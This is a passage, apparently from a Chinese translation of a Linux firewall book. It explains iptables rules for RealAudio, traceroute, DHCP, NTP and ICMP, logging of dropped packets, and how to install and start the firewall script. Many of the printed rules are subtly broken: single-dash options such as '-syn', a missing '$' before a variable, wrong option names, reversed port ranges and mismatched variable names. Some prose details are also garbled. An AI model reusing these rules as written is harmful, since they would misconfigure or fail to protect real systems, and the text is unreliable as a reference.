客户端程序可以配置为仅使用 TCP，或者使用 TCP 进行控制并使用 UDP 进行数据流传输（UDP 端口可以配置为单个端口或某个端口范围中的一个），或者使用 HTTP 应用程序协议。TCP 服务器端口 554 或 7070 和 7071 取决于客户端和服务器版本。对于新的客户端，UDP 客户端端口范围在 6970 到 7170 之间。如果用户使用的是 RealAudio 3.0 播放器，UDP 客户端端口范围是 6770 到 7170。实际的端口范围可能因应用程序和平台而异。

通常，客户端程序使用可用的最高效的传输组合。客户端通过尝试不同的方法来确定这一点。由于双向协议通常在没有 ALG 支持的情况下难以通过防火墙，数据流通常将通过 TCP 或 HTTP 协议到达。

换句话说，如果没有 RealAudio 的防火墙支持模块，您的选择是使用 HTTP 进行入站流，打开特定的 TCP 或 UDP 端口并且不使用状态模式（或者，至少不使用 INVALID 匹配），或者打开所需的端口并将数据流的规则放置在状态匹配规则之前。表 7.12 列出了本地客户端的控制流和数据流。

## 表 7.12 RealAudio 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 入/出 | 本地地址 | 本地端口 | TCP 标志 |

|---|---|---|---|---|---|---|---|

| 本地客户端请求 | TCP | 任意位置 | 554,7070 | 出 | IPADDRESS | 1024:65535 | 任意 |

| 远程服务器响应 | TCP | 任意位置 | 554,7070 | 入 | IPADDRESS | 1024:65535 | ACK |

| 本地客户端 TCP 数据请求 | TCP | 任意位置 | 7071 | 出 | IPADDRESS | 1024:65535 | 任意 |

| 远程服务器 TCP 数据响应 | TCP | 任意位置 | 7071 | 入 | IPADDRESS | 1024:65535 | ACK |

| 远程服务器 UDP 数据流 | UDP | 任意位置 | 1024:65535 | 入 | IPADDRESS | 6970:7170 | |

下一对规则建立与服务器的控制连接：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -m multiport --dports 554,7070 \
  -syn -s $IPADDR --sport $UNPRIVPORTS \
  -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -m multiport --dports 554,7070 \
  -syn -s $IPADDR --dport $UNPRIVPORTS -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp \
  -m multiport --dports 554,7070 \
  ! --syn -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

下一条规则允许来自服务器的首选 UDP 数据流：

```bash
$IPT -A INPUT -i $INTERNET -p udp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 6970:7170 -j ACCEPT
```

下一条规则建立与服务器的 TCP 数据流连接：

```bash
if [ "CONNECTION_TRACKING" = "1" ]; then
$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport 7071 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport 7071 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

## 7.6 启用常见 UDP 服务

无状态 UDP 协议固有地比基于连接的 TCP 协议安全性低。因此，许多注重安全的网站完全禁用或尽可能限制对所有 UDP 服务的访问。显然，基于 UDP 的 DNS 交换是必需的，但可以在防火墙规则中明确指定远程名称服务器。因此，本节仅针对以下三种服务提供规则：

- traceroute
- 动态主机配置协议 (DHCP)
- 网络时间协议 (NTP)

### 7.6.1 traceroute (UDP 端口 33434)


在 Unix 和 Linux 系统中，`traceroute` 是一项 UDP 服务，它促使中间系统生成 ICMP 超时消息以收集跳数信息，并且

## 启用通用 UDP 服务

导致目标系统返回“目标不可达”（Destination Unreachable）消息，该消息指示到主机的路由端点。根据默认拒绝策略，本章正在开发的防火墙将阻止传入的 UDP `traceroute` 数据包，因为 `traceroute` 的默认端口未被显式启用。因此，响应传入 `traceroute` 请求的传出 ICMP 消息将不会被发送。表 7.13 列出了 `traceroute` 服务的客户端/服务器连接协议。

### 表 7.13 traceroute 协议

| 描述 | 协议 | 远程地址 | 远程端口 / ICMP 类型 | 入/出 | 本地地址 | 本地端口 / ICMP 类型 |
| --- | --- | --- | --- | --- | --- | --- |
| 传出 traceroute 探测 | UDP | ANYWHERE | 33434:33523 | 出 | IPADDR | 32769:65535 |
| 超时（中间跳数） | ICMP | ANYWHERE | 11 | 入 | IPADDR | — |
| 未找到端口（终止） | UDP | ANYWHERE | 3 | 入 | IPADDR | — |
| 传入 traceroute 探测 | UDP | ISP | 32769:65535 | 入 | IPADDR | 33434:33523 |
| 超时（中间跳数） | ICMP | ISP | — | 出 | IPADDR | 11 |
| 未找到端口（终止） | ICMP | ISP | — | 出 | IPADDR | 3 |

`traceroute` 可以配置为使用任意端口或端口范围。因此，通过列出特定端口来阻止所有传入的 `traceroute` 数据包是困难的。但是，它通常使用 32, 769 到 65, 535 范围内的源端口和 33, 434 到 33, 523 范围内的目标端口。由于 `traceroute` 可以配置为使用任意源和目标端口，阻止 `traceroute` 最有效的方法是阻止生成的响应传出 ICMP 消息。为 `traceroute` 的默认源和目标端口定义了符号常量：

```
TRACEROUT_SRC_PORTS="32769:65535"
TRACEROUT_DEST_PORTS="33434:33523"
```

### 启用传出 traceroute 请求

如果您打算自己使用 `traceroute`，必须启用 UDP 客户端端口。请注意，为了使传出 `traceroute` 正常工作，必须允许从任何位置传入的 ICMP 超时（Time Exceeded）和目标不可达（Destination Unreachable）消息：

```
$IPT -A OUTPUT -o $INTERNET -p udp \
-s $IPADDR --sport $TRACEROUT_SRC_PORTS \
-dport $TRACEROUT_DEST_PORTS -j ACCEPT
```

由于 `traceroute` 是一种安全性较低的 UDP 服务，并且可用于识别您的边缘路由器、映射您的局域网或攻击其他 UDP 服务，因此不建议允许传入的 `traceroute`。

## 7.6.2 访问您的 ISP 的 DHCP 服务器

（UDP 端口 67, 68）

如果您所在地与您的 ISP 服务器之间有任何 DHCP 交换，这些交换必然是本地客户端到远程服务器的交换。通常，DHCP 客户端从管理 ISP 客户地址空间的中央服务器接收临时或永久动态分配的 IP 地址。服务器通常还向本地主机提供其他配置信息，例如网络子网掩码、网络 MTU、默认第一跳路由器地址、域名和默认 TTL。

如果您拥有从 ISP 动态分配的 IP 地址，您需要在机器上运行一个 DHCP 守护进程。如果某人不小心运行了服务器，虚假服务器消息通常不会在您的 ISP 的本地子网中到处乱飞。因此，过滤 DHCP 消息以尽可能限制客户端和您的特定 ISP DHCP 服务器之间的流量尤为重要。

表 7.14 列出了 DHCP 消息类型描述，引自 RFC 2131“动态主机配置协议”。

### 表 7.14 DHCP 消息类型

| DHCP 消息 | 描述 |
|---|---|
| DHCPDISCOVER | 客户端广播以查找可用的服务器 |
| DHCPOFFER | 服务器响应 DHCPDISCOVER 向客户端发送配置参数提供的消息 |
| DHCPREQUEST | 客户端向服务器发送的消息，要么 (a) 请求从一个服务器获取提供的参数并 (b) 拒绝其他所有服务器的提议；(c) 在系统重启等事件后确认收到之前分配的地址；或 (d) 延长特定网络地址的租约 |
| DHCPACK | 服务器向客户端发送包含已承诺网络地址的配置参数 |
| DHCPNAK | 服务器向客户端指示网络地址不正确（例如，客户端已移动到新子网）或客户端的租约已过期 |
| DHCPDECLINE | 客户端向服务器指示该网络地址已被使用 |
| DHCPRELEASE | 客户端向服务器释放网络地址并取消剩余租约 |
| DHCPINFORM | 客户端向服务器请求本地配置参数；客户端已有外部配置的地址 |

本质上，当 DHCP 客户端初始化时，它广播 `DHCPDISCOVER` 查询以发现可用的 DHCP 服务器。接收到查询的任何服务器都会响应 `DHCPOFFER` 消息，表示它们愿意作为该客户端的服务器；它们包含它们可以提供的配置参数。客户端广播 `DHCPREQUEST` 消息以接受其中一个服务器，并通知其余服务器它已选择拒绝它们的提议。被选中的服务器通过广播 `DHCPACK` 响应，确认其最初提供的参数。此时地址分配完成。定期地，客户端发送 `DHCPREQUEST` 消息请求更新 IP 地址的租约。如果租约更新成功，服务器以单播 `DHCPACK` 消息响应。否则，客户端回退到初始化过程。表 7.15 列出了 DHCP 服务的完整客户端/服务器交换协议。

### 表 7.15 DHCP 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 入/出 | 本地地址 | 本地端口 |
|---|---|---|---|---|---|---|
| DHCPDISCOVER | UDP | 255.255.255.255 | 67 | 出 | 0.0.0.0 | 68 |
| DHCPOFFER | UDP | DHCP SERVER | 67 | 入 | 255.255.255 | 68 |
| DHCPREQUEST | UDP | DHCP SERVER | 67 | 出 | 0.0.0.0 | 68 |
| DHCPDECLINE | UDP | DHCP SERVER | 67 | 入 | ISP/NETMASK | 68 |
| DHCPACK | UDP | DHCP SERVER | 67 | 入 | IPADDR | 68 |
| DHCPREQUEST | UDP | DHCP SERVER | 67 | 出 | IPADDR | 68 |
| DHCPRELEASE | UDP | | | | | | 68 |

DHCP 协议比这个简要总结要复杂得多，但该总结描述了典型客户端和服务器交换的要点。

以下防火墙规则允许您的 DHCP 客户端和远程服务器之间的通信：


```
DHCP_SERVER="my.dhcp.server" # 如果您使用一个的话

# 初始化或重新绑定：没有租约或租约时间已过期。
$IPT -A OUTPUT -o $INTERNET -p udp \
  -s BROADCAST_SRC --port 68 \
  -d BROADCAST_DEST --dport 67 -j ACCEPT

# 来自可用 DHCP 服务器的传入 DHCP OFFER
$IPT -A INPUT -i $INTERNET -p udp \
  -s BROADCAST_SRC --port 67 \
  -d BROADCAST_DEST --dport 68 -j ACCEPT

# 回退到初始化
# 客户端知道其服务器，但已失去其租约，
# 或者在重启后需要重新确认 IP 地址。
$IPT -A OUTPUT -o $INTERNET -p udp \
  -s BROADCAST_SRC --port 68 \
  -d DHCP_SERVER --dport 67 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p udp \
  -s $DHCP_SERVER --port 67 \
  -d BROADCAST_DEST --dport 68 -j ACCEPT

# 结果，我们假设使用此消息更改您的 IP
# 地址，该消息旨在发给我们的新
# 地址，而 DHCP 客户端尚未收到更新。
# 根据服务器实现，目标地址
# 可以是新的 IP 地址、子网地址或有限
# 广播地址。

# 如果使用网络子网地址作为目标，
# 下一条规则必须允许发送目标的传入数据包
# 子网地址，并且该规则必须位于阻止包括广播数据包的任何一般规则之前。

# 租约更新
$IPT -A OUTPUT -o $INTERNET -p udp \
  -s $IPADDR --port 68 \
  -d $DHCP_SERVER --dport 67 -j ACCEPT
$IPT -A INPUT -i $INTERNET -p udp \
  -s $DHCP_SERVER --port 67 \
  -d $IPADDR --dport 68 -j ACCEPT
```

请注意，DHCP 流量无法完全限制到您的 DHCP 服务器。在初始化序列期间，当您的客户端尚未获得分配的 IP 地址甚至

## 启用通用 UDP 服务

... 服务器的 IP 地址，数据包是广播的，而不是点对点发送的。在第二层，数据包可能被寻址到你网卡的硬件地址。

### 7.6.3 访问远程网络时间服务器（UDP 端口 123）

网络时间服务如 NTP 允许访问一个或多个公共互联网时间提供者。这对维护准确的系统时钟很有用，特别是当你的内部时钟倾向于漂移时，以及用于在启动或断电后建立正确的时间和日期。小型系统用户应将该服务用作互联网客户端。很少有小型站点拥有到英国格林威治的卫星链路、到原子钟的无线电链路或自己的铯原子钟。

`ntpd` 是服务器守护进程。除了向客户端提供时间外，`ntpd` 还使用服务器之间的点对点关系。很少有小型站点需要 `ntpd` 提供的额外精度。`ntdate` 是客户端程序，并使用客户端到服务器的关系。客户端程序是小型站点所需的全部内容。表 7.16 列出了 NTP 服务的客户端/服务器交换协议。很少（如果有的话）有理由运行 `ntpd` 本身，因为那是服务器组件。如果你必须运行 NTP 服务器（而不是客户端），请在 root 环境中这样做。

#### 表 7.16 NTP 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 入/出 | 本地地址 | 本地端口 |
|---|---|---|---|---|---|---|
| 本地客户端查询 | UDP | TIMESERVER | 123 | 出 | IPADDR | 1024:65535 |
| 远程服务器响应 | UDP | TIMESERVER | 123 | 入 | IPADDR | 1024:65535 |

在启动时运行的 `ntpd` 启动脚本使用 `ntdate` 查询一系列公共时间服务提供商。`ntpd` 守护进程在服务器回复后启动。这些主机将在一系列防火墙规则中单独指定：

```
TIME_SERVER="my.time.server" # 外部时间服务器，如果有
if [ "$CONNECTION_TRACKING" = "*" ]; then
$IPT -A OUTPUT -o $INTERNET -p udp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $TIME_SERVER --dport 123 \
    -m state --state NEW -j ACCEPT
fi
$IPT -A OUTPUT -o $INTERNET -p udp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $TIME_SERVER --dport 123 -j ACCEPT
$IPT -A INPUT -i $INTERNET -p udp \
    -s $TIME_SERVER --sport 123 \
    -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

请注意，上述规则是为标准的客户端/服务器 UDP 通信编写的。根据你的特定客户端和服务器软件，其中一个或两者都使用 NTP 服务器到服务器的通信模型，即客户端和服务器都使用 UDP 端口 123，这是可能的。

## 7.7 过滤 ICMP 控制状态消息

ICMP 消息是对许多错误条件的响应生成的，并由 `ping` 和 `traceroute` 等网络分析程序产生。

### ICMP 消息类型和 IPTABLES

`iptables` 支持使用 ICMP 数字消息类型或字母符号名称。`Iptables` 还支持使用消息子类型或代码。这对于对类型 3 目标不可达消息进行更细粒度的过滤控制特别有用。例如，你可以通过禁用传入的 `traceroute` 来明确禁止发出端口不可达消息，或者你可以明确只允许发出分片所需消息。

要查看 `iptables` 中所有支持的 ICMP 符号名称列表，请运行 `iptables -p icmp -h`。要查看官方 RFC 分配，请前往 http://www.iana.org/assignments/icmp-parameters。

### 7.7.1 错误状态和控制消息

四种 ICMP 控制状态消息需要通过防火墙：源抑制（Source Quench）、参数问题（Parameter Problem）、传入的目标不可达（Destination Unreachable）以及发出的分片所需（Fragmentation Needed）子类型的不可达消息。其他 ICMP 消息类型是可选的：回声请求（Echo Request）、回声回复（Echo Reply）、其他发出的目标不可达子类型，以及超时（Time Exceeded）。其他消息类型可以被忽略，或由默认策略过滤掉。

在可以或应该被忽略的消息类型中，重定向（redirect）是危险的，因为它在拒绝服务攻击中扮演重定向炸弹的角色。（有关重定向炸弹的更多信息，请参阅第 5 章。）除了重定向，剩余的 ICMP 消息类型是专门用于路由器之间控制和状态消息。

以下各节详细描述了与中间路由器相比，对端点主机重要的消息类型。

#### 分片的 ICMP 消息

在正常情况下，ICMP 消息永远不会被分片。ICMP 消息应该完全适应第二层帧。丢弃分片的 ICMP 消息是安全的。这样的数据包通常用于拒绝服务攻击：

```
$IPT -A INPUT -i $INTERNET --fragment -p icmp -j LOG \
--log-prefix "Fragmented ICMP: "
$IPT -A INPUT -i $INTERNET --fragment -p icmp -j DROP
```

#### 源抑制控制（类型 4）消息

当连接源（通常是路由器）发送数据的速度快于下一个目标路由器所能处理的速度时，可以发送 ICMP 消息类型 4，即源抑制（Source Quench）。源抑制在 IP 网络层用作一种原始形式的流量控制，通常位于两台相邻的点对点机器之间：

```
$IPT -A INPUT -i $INTERNET -p icmp \
--icmp-type source-quench -d $IPADDR -j ACCEPT
$IPT -A OUTPUT -o $INTERNET -p icmp \
-s $IPADDR --icmp-type source-quench -j ACCEPT
```

路由器的主机或目标机器发送源抑制命令。源路由器通过以较慢的速率发送数据包来响应，随着接收另一个源抑制消息，逐渐增加速率。

实际上，源抑制在互联网中已不再常用。流量控制留给高层协议。然而，在局域网中可以看到这种消息类型。

#### 参数问题状态（类型 12）消息

ICMP 消息类型 12，即参数问题（Parameter Problem），在接收到包含头部中非法或意外数据的数据包时，或当头部校验和不匹配接收机生成的校验和时发送：


```
$IPT -A INPUT -i $INTERNET -p icmp \
--icmp-type parameter-problem -d $IPADDR -j ACCEPT
$IPT -A OUTPUT -o $INTERNET -p icmp \
-s $IPADDR --icmp-type parameter-problem -j ACCEPT
```

### 目标不可达错误（类型 3）消息

ICMP 消息类型 3，即目标不可达（Destination Unreachable），是一种通用的错误状态消息：

```
$IPT -A INPUT -i $INTERNET -p icmp \
--icmp-type destination-unreachable -d $IPADDR -j ACCEPT
$IPT -A OUTPUT -o $INTERNET -p icmp \
-s $IPADDR --icmp-type fragmentation-needed -j ACCEPT
# 不要记录被丢弃的传出 ICMP 错误消息
$IPT -A OUTPUT -o $INTERNET -p icmp \
  -s $IPADDR --icmp-type destination-unreachable -j DROP
```

类型 3 消息的 ICMP 数据包头部包含一个错误代码字段，用于识别特定的错误类型。理想情况下，你希望丢弃发出的类型 3 消息。这种消息类型是对用于映射你的服务端口或地址空间的端口扫描的响应。攻击者可以通过轰炸你的未使用端口，迫使你的系统生成大量这些消息，从而创建拒绝服务条件。更糟糕的是，攻击者可以伪造源地址，迫使你的系统将它们发送到伪造的主机。不幸的是，不可达消息造成了一种两难境地。其中一个消息子类型，分片所需（Fragmentation Needed），用于协商数据包分片大小。如果没有该机制，你的网络性能可能会严重下降。

### 超时状态（类型 11）消息

ICMP 消息类型 11，即超时（Time Exceeded），表示超时条件，或者更准确地说，表示数据包的最大跳数已被超过。在网络上，传入的超时消息主要被视为对传出 UDP traceroute 请求的 ICMP 响应：

```
$IPT -A INPUT -i $INTERNET -p icmp \
  --icmp-type time-exceeded -d $IPADDR -j ACCEPT
```

如果你想使用 `traceroute`，必须允许传入的 ICMP 超时消息。因为你的机器不是中间路由器，你没有其他理由接收超时消息。

### 7.7.2 ping 回声请求（类型 8）和回声回复（类型 0）控制消息

`ping` 使用两种 ICMP 消息类型。请求消息，回声请求（Echo Request），是消息类型 8。回复消息，回声回复（Echo Reply），是消息类型 0。`ping` 是一个简单的网络分析工具，可追溯到最初的 DARPANet。`ping` 的名称取自声纳系统播放的听觉回声的想法。（毕竟 DARPA 是国防高级研究计划局。）与声纳类似，广播到网络地址空间中所有机器的回声请求消息会从响应网络的所有主机生成回声回复消息，作为回报。

#### SMURF 攻击

不要向互联网广播任何东西。之前提到的 `ping` 广播是 `smurf` IP 拒绝服务攻击的基础。有关 `smurf` 攻击的更多信息，请参阅 http://www.cert.org 的 CERT 建议 CA-98.01.smurf。

### 向远程主机发出 PING

以下规则对允许你向互联网上的任何主机发送 `ping` 请求：

```bash
if [ "CONNECTION_TRACKING" = "1" ]; then
  # allow outgoing pings to anywhere
  $IPT -A OUTPUT -o $INTERNET -p icmp \
  -s $IPADDR --icmp-type echo-request \
  -m state --state NEW -j ACCEPT
fi
```

```bash
# allow outgoing pings to anywhere
$IPT -A OUTPUT -o $INTERNET -p icmp \
  -s $IPADDR --icmp-type echo-request -j ACCEPT
```

```bash
$IPT -A INPUT -i $INTERNET -p icmp \
  -s $MY_ISP --icmp-type echo-request -d $IPADDR \
  -m state --state NEW -j ACCEPT
```

### 来自远程主机的传入 PING

此处展示的方法仅选择允许外部主机 `ping` 你：

```bash
if [ "CONNECTION_TRACKING" = "1" ]; then
  # allow incoming pings from trusted hosts
  $IPT -A INPUT -i $INTERNET -p icmp \
  -s $MY_ISP --icmp-type echo-request -d $IPADDR \
  -m state --state NEW -j ACCEPT
fi
```

```bash
# allow incoming pings from trusted hosts
$IPT -A INPUT -i $INTERNET -p icmp \
  -s $MY_ISP --icmp-type echo-request -d $IPADDR -j ACCEPT
```

```bash
$IPT -A OUTPUT -o $INTERNET -p icmp \
  -s $IPADDR --icmp-type echo-reply -d $MY_ISP -j ACCEPT
```

就本章中你一直在构建的示例而言，允许 `ping` 你机器的外部主机属于你的 ISP（互联网服务提供商）。你的网络运营中心或客户支持部门很可能需要 `ping` 你的外部接口。如果你的机器是 DHCP 客户端，其 DHCP 实现也可能依赖于 `ping`。除了来自本地网络邻居的请求外，其他传入的 Echo Request（回显请求）都被拒绝。`Ping` 已被用于多种拒绝服务（DoS）攻击中。

### 7.8 记录被丢弃的传入数据包

任何匹配规则的数据包都可以通过 `-j LOG` 目标进行记录。但是，记录数据包不会影响数据包的处理结果。数据包必须匹配一个接受或丢弃规则。之前展示的一些规则启用了日志记录功能，然后在第二次匹配数据包时将其丢弃。一些 IP 地址伪装规则就是这样的例子。

可以定义规则专门用于记录特定类型的数据包。大多数感兴趣的数据包是表明某种探测或扫描的可疑数据包。由于默认情况下所有数据包都被拒绝，如果希望记录某些类型的数据包，必须在数据包从链的末尾掉落并触发默认策略之前定义显式规则。本质上，在所有被拒绝的数据包中，你可能希望记录其中一部分，对其中一部分使用限速日志记录，而静默丢弃其余部分。

记录哪些数据包属于个人选择。有些人希望记录所有被丢弃的数据包。对另一些人来说，记录所有被丢弃的数据包很快就会让日志溢出。有些人确信数据包已被丢弃，因此并不关心它们，也不希望了解它们。还有些人对明显的扫描或特定类型的数据包感兴趣。

由于采用“首次匹配规则”机制，你可以用一条规则记录所有被丢弃的数据包。这里的假设是，所有匹配数据包的接受规则都经过测试，且数据包即将从链的末尾掉落并被丢弃：

```bash
$IPT -A INPUT -i $INTERNET -j LOG
```

对某些人来说，这将产生过多的日志条目——或者过多的无趣日志条目。例如，你可能希望记录所有被丢弃的传入 ICMP 流量，但不包括 `ping`，因为 `ping` 是一项常见服务，无论你的站点是否响应 `ping`：

```bash
$IPT -A INPUT -i $INTERNET -p icmp \
    --icmp-type 8 -d $IPADDR -j LOG
```

你可能希望记录所有端口的传入 TCP 流量以及到你的特权端口的传入 UDP 流量：

```bash
$IPT -A INPUT -i $INTERNET -p tcp \
    -d $IPADDR -j LOG
```

再或者，你可能希望记录所有被丢弃的特权端口访问，但不包括那些你本来就不提供服务的、常被探测的端口：


```bash
# skip ftp, telnet, ssh
$IPT -A INPUT -i $INTERNET -p tcp \
    -d $IPADDR --dport 24 -j LOG

# skip smtp
$IPT -A INPUT -i $INTERNET -p tcp \
    -d $IPADDR --dport 26:78 -j LOG

# skip finger, www
$IPT -A INPUT -i $INTERNET -p tcp \
    -d $IPADDR --dport 81:109 -j LOG

# skip pop-3, sunrpc
$IPT -A INPUT -i $INTERNET -p tcp \
    -d $IPADDR --dport 112:136 -j LOG

# skip NetBIOS
$IPT -A INPUT -i $INTERNET -p tcp \
    -d $IPADDR --dport 140:142 -j LOG

# skip imap
$IPT -A INPUT -i $INTERNET -p tcp \
    -d $IPADDR --dport 144:442 -j LOG

# skip secure_web/SSL
$IPT -A INPUT -i $INTERNET -p tcp \
    -d $IPADDR --dport 444:65535 -j LOG

# UDP rules
$IPT -A INPUT -i $INTERNET -p udp \
    -d $IPADDR --dport 0:110 -j LOG

# skip sunrpc
$IPT -A INPUT -i $INTERNET -p udp \
    -d $IPADDR --dport 112:160 -j LOG

# skip snmp
$IPT -A INPUT -i $INTERNET -p udp \
    -d $IPADDR --dport 163:161 -j LOG

# skip NFS mountd
$IPT -A INPUT -i $INTERNET -p udp \
    -d $IPADDR --dport 635:636 -j LOG

# skip pcAnywhere
$IPT -A INPUT -i $INTERNET -p udp \
    -d $IPADDR --dport 5633:31336 -j LOG

# skip traceroute's default ports
$IPT -A INPUT -i $INTERNET -p udp \
    -sport $TRACEROUTE_SRC \
    -d $IPADDR --dport $TRACEROUTE_DEST -j LOG

# skip the rest
$IPT -A INPUT -i $INTERNET -p udp \
    -d $IPADDR --dport 33344:65535 -j LOG
```

### 7.9 记录被丢弃的传出数据包

记录被防火墙规则阻止的传出流量对于调试防火墙规则以及警示本地软件问题至关重要。

除了之前被丢弃的传出 ICMP 类型 3 错误外，即将被默认策略丢弃的流量也可以被记录：

```bash
$IPT -A OUTPUT -o $INTERNET -j LOG
```

### 7.10 预先拒绝访问问题站点

如果某个站点习惯扫描你的机器或以其他方式造成干扰，你可能会决定拒绝其访问所有内容，至少在该问题行为得到纠正之前如此。

一种无需每次编辑 `rc.firewall` 脚本即可实现此目的的方法是包含一个单独的特定丢弃规则文件。通过将规则插入 `INPUT` 链而非追加，如果后续规则本允许其访问某些服务，该站点也会被阻止。该文件名为 `/etc/rc.d/rc.firewall.blocked`。为了避免可能的运行时错误，在尝试包含该文件之前检查其是否存在：

```bash
# Reuse packets claiming to be from the banned list
if [ -f /etc/rc.d/rc.firewall.blocked ]; then
  . /etc/rc.d/rc.firewall.blocked
fi
```

`rc.firewall` 文件中全局丢弃规则的一个示例如下：

```bash
$IPT -I INPUT -s <address> -j DROP
```

作为替代方案，可以避免在链的开头插入规则（这将先于状态检查），而是追加规则，并将该文件包含在规则集的伪装源地址部分中。

来自此源地址范围的任何数据包都将被丢弃，无论消息协议类型或源/目标端口如何。

### 7.11 安装防火墙

本节假设防火墙脚本名为 `rc.firewall`。脚本并没有理由不能简单地称为 `fwscript` 或其他名称。实际上，在 Debian 系统中，标准名称更接近于单一的 `fwscript`，而不是像 Red Hat 系统中那样带有 `rc.` 前缀的名称。本节涵盖的命令假设立于 Red Hat 或 SUSE 系统的 `/etc/rc.d/` 目录以及 Debian 系统的 `/etc/init.d/` 目录中。

作为 shell 脚本，初始安装很简单。该脚本应由 root 所有。在 Red Hat 和 SUSE 上：

```bash
chown root:root /etc/rc.d/rc.firewall
```

在 Debian 上：

```bash
chown root:root /etc/init.d/rc.firewall
```

该脚本应仅允许 root 进行写和读/执行操作。理想情况下，普通用户不应有读取权限。在 Red Hat 和 SUSE 上：

```bash
chmod u=rwx /etc/rc.d/rc.firewall
```

在 Debian 上：

```bash
chmod u=rwx /etc/init.d/rc.firewall
```

要在任何时间初始化防火墙，请从命令行执行该脚本。无需重启：

```bash
/etc/rc.d/rc.firewall start
```

严格来说，`start` 参数在那里并非必需，但这始终是个好习惯——再次强调，对于防火墙，我宁愿保持完整性而非产生歧义。该脚本包含一个 `stop` 操作，可完全清空防火墙。因此，如果你想停止防火墙，请调用带有 `stop` 参数的同一命令：

```bash
/etc/rc.d/rc.firewall stop
```

警告：如果你以此方式停止防火墙，你将处于无保护状态。律师会告诉我应该对你说：“始终保持防火墙启用！”

在 Debian 上，将命令路径更改为 `/etc/init.d`。

启动防火墙：

```bash
/etc/init.d/rc.firewall start
```

在 Debian 上停止防火墙：

```bash
/etc/init.d/rc.firewall stop
```

当你通过 SSH 或其他远程连接调试新的防火墙脚本时，很有可能会将自己锁定在系统之外。诚然，当你从控制台安装防火墙时这无关紧要，但作为一个管理远程 Linux 服务器的人，如果极少能获得控制台访问权限，这就是个问题。因此，需要一种方法在防火墙启动后自动停止它，以防防火墙锁定了你的连接。Cron 来救援了：

使用 `cron` 条目，你可以通过以预定义间隔运行带有 `stop` 参数的脚本来停止防火墙。我发现初始调试期间 2 分钟的效果很好。如果你想使用此方法，请以 root 身份（在 Debian 上）设置以下命令的 `cron` 条目：

```bash
crontab -e
*/2 * * * * /etc/init.d/rc.firewall stop
```

在 Red Hat 和 SUSE 上：

```bash
crontab -e
*/2 * * * * /etc/rc.d/rc.firewall stop
```

有了这个 `cron` 条目，你可以启动防火墙并让它每 2 分钟停止一次。不过，使用这样的机制是一种权衡，因为你需要在 `cron` 到达可被 2 整除的分钟之前完成初始调试！此外，还需要你记得在调试完防火墙后删除这个 `cron` 条目。如果你忘记删除此条目，防火墙将停止，你将再次处于无防火墙保护的状态！

## 7.11.2 在 Red Hat 和 SUSE 上启动时启用防火墙

在 Red Hat 和 SUSE 系统中，初始化防火墙最简单的方法是编辑 `/etc/rc.d/rc.local` 文件，并在文件末尾添加以下行：

```
/etc/rc.d/rc.firewall start
```

当防火墙规则调试完成并稳定后，Red Hat Linux 提供了一种更标准的方式来启动和停止防火墙。如果您在使用某一级别管理器（run-level manager）时选择了 `iptables`，默认的 runlevel 目录中会包含指向 `/etc/rc.d/init.iptables` 的链接。借助该目录中的其他启动脚本，系统在引导或切换运行级别时将自动启动和停止防火墙。


然而，使用标准 runlevel 系统还需要执行一个额外的步骤。您必须手动安装防火墙规则：

```
/etc/rc.d/rc.firewall
```

然后执行以下命令：

```
/etc/init.d/iptables save
```

规则将被保存在一个文件中，即 `/etc/sysconfig/iptables`。此后，启动脚本将找到该文件并自动加载已保存的规则。

关于使用此方法保存和加载防火墙规则，需要提醒一点注意事项。目前 iptables 的保存和加载功能尚未完全调试完毕。如果您的特定防火墙配置在保存或加载规则时导致语法错误，您必须继续使用其他启动机制，例如从 `/etc/rc.d/rc.local` 中执行防火墙脚本。

## 7.11.3 在 Debian 上启动时启用防火墙

与许多其他方面一样，在 Debian 上配置防火墙脚本以在启动时运行比其他发行版更简单。您可以使用 `update-rc.d` 命令让防火墙在启动时自动启动和停止。运行 `update-rc.d` 时指定位于 `/etc/init.d` 中的防火墙脚本，并将当前目录设置为 `/etc/init.d/`：

```
cd /etc/init.d
update-rc.d rc.firewall defaults
```

有关 `update-rc.d` 的更多使用方法，请参阅其手册页（man page）。

防火墙脚本的其他方面取决于您是拥有已注册的静态 IP 地址，还是动态分配的 DHCP IP 地址。本章中介绍的防火墙脚本是为拥有静态分配永久 IP 地址的环境配置的。

## 7.11.4 安装具有动态 IP 地址的防火墙

如果您拥有动态分配的 IP 地址，标准的防火墙安装方法无需修改即可正常工作。防火墙规则将在网络接口启用之前、系统被分配 IP 地址之前（可能也在被分配默认网关路由器或名称服务器之前）被安装。

防火墙脚本本身需要定义 `IPADDR` 和 `NAMESERVER` 值。DHCP 服务器和本地的 `/etc/resolv.conf` 文件都可以定义最多三个名称服务器。此外，任何站点可能事先知道也可能不知道其 DNS 服务器、默认网关路由器或 DHCP 服务器的地址。此外，随着 ISP 更新其网络，您的网络掩码、子网和广播地址可能会随时间发生变化。有些 ISP 经常分配不同的 IP 地址，结果导致您的 IP 地址在一次持续连接过程中可能改变多次。

您的站点可能需要提供一种手段，以便在这些更改发生时动态更新已安装的防火墙规则。

此外，如果您使用的是 DSL 连接，MTU 可能会引起问题。如果是这种情况，这里有一条防火墙规则可以修复该问题：

```
$IPT -A OUTPUT -o $INTERFACE -p tcp --tcp-flags SYN, RST \ \
SYN -j TCPMSS --clamp-mss-to-pmtu
```

防火墙脚本可以直接从环境变量读取这些 shell 变量，也可以从文件中读取。无论如何，这些变量不会像本章示例中那样硬编码在防火墙脚本中。

## 7.12 总结

